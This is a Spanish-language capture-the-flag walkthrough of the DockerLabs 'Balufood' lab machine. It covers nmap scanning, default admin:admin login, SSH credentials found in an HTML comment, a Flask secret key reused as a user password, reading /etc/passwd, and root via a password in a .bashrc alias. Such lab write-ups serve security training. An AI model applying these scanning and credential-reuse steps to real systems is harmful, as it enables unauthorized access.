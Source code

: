 ```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Balufood DockerLabs (Easy)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip balufood.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh balufood.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-05 11:51 EDT
Nmap scan report for 172.17.0.2
Host is up (0.000079s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
| ssh-hostkey: 
|   256 69:15:7d:34:74:1c:21:8a:cb:2c:a2:8c:42:a4:21:7f (ECDSA)
|_  256 a7:3a:c9:b2:ac:cf:44:77:a7:9c:ab:89:98:c7:88:3f (ED25519)
5000/tcp open  http    Werkzeug httpd 2.2.2 (Python 3.11.2)
|_http-server-header: Werkzeug/2.2.2 Python/3.11.2
|_http-title: Restaurante Balulero - Inicio
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.83 seconds
```

Veremos que hay un puerto `5000` abierto, en el que se aloja una pagina web, si entramos dentro veremos una pagina web de un restaurante normal, pero si nos vamos a `Ver carta` -> `Admin` veremos un `login`, por lo que vamos a probar las credenciales por defecto tipicas:

```
User: admin
Pass: admin
```

Veremos que si nos autenticamos, pero no veremos gran cosa por fuera, si probamos a inspeccionar el codigo veremos lo siguiente:

```html
<!-- Backup de acceso: sysadmin:backup123 -->
```

Podemos ver que pueden ser unas credenciales para el puerto `SSH` por lo que vamos a probar ha realizar lo siguiente:

```shell
ssh sysadmin@<IP>
```

Metemos como contraseña `backup123` y veremos que estamos dentro.

## Escalate user balulero

Si listamos la carpeta en la que nos encontramos de la `home` de dicho usuario y leemos el archivo `app.py` para inspeccionar el codigo veremos lo siguiente al principio:

```python
from flask import Flask, render_template, redirect, url_for, request, session, flash
import sqlite3
from functools import wraps

app = Flask(__name__)
app.secret_key = 'cuidaditocuidadin'
DATABASE = 'restaurant.db'
...........................<RESTO DE CODIGO>......................................
```

Veremos que hay una clave secreta la cual puede ser la contraseña de uno de los usuarios del sistema:

```shell
cat /etc/passwd | grep "/bin/bash"
```

Info:

```
root:x:0:0:root:/root:/bin/bash
sysadmin:x:1000:1000:sysadmin,sysadmin,,:/home/sysadmin:/bin/bash
balulero:x:1001:1001:balulero,,,:/home/balulero:/bin/bash
```

Vamos a probar con `balulero` de la siguiente forma:

```shell
su balulero
```

Metemos como contraseña `cuidaditocuidadin` y veremos que estaremos dentro.

## Escalate Privileges

Si leemos de la `home` de dicho usuario el archivo `.bashrc` y veremos lo siguiente:

```shell
cat ~/.bashrc
```

Info:

```
...........................<RESTO DE CODIGO>.....................................

alias ser-root='echo chocolate2 | su - root'
```

Veremos que esta pasando como contraseña `chocolate2` para loguearse con `root` por lo que vamos a probar dicha contraseña a ver si funciona.

```shell
su root
```

Metemos como contraseña `chocolate2`.

```
root@a064182c909b:~# whoami
root
```

Veremos que seremos el usuario `root`, por lo que habremos terminado la maquina.
